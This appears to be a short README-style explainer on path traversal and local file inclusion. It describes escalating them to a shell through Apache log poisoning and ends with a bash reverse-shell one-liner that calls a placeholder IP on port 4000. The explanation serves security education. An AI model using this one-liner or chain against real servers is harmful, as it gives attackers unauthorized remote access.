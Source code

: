A path traversal attack (also known as directory traversal) aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with “dot-dot-slash (../)” sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system including application source code or configuration and critical system files. It should be noted that access to files is limited by system operational access control (such as in the case of locked or in-use files on the Microsoft Windows operating system). Local file inclusion (also known as LFI) is the process of including files, that are already locally present on the server, through the exploiting of vulnerable inclusion procedures implemented in the application. This vulnerability occurs, for example, when a page receives, as input, the path to the file that has to be included and this input is not properly sanitized, allowing directory traversal characters (such as dot-dot-slash) to be injected. Although most examples point to vulnerable PHP scripts, we should keep in mind that it is also common in other technologies such as JSP, ASP and others.

Exploiting a Path Traversal and a LFI in a server, could led us to open shell using a **simple reverse shell bash oneliner**, if we poison some part of the system, for example the Apache Logs in a Linux system, eg: [Apache Log Poisoning through LFI](https://www.hackingarticles.in/apache-log-poisoning-through-lfi/).

```shell
bash -i >& /dev/tcp/<IP>/4000 0>&1
```
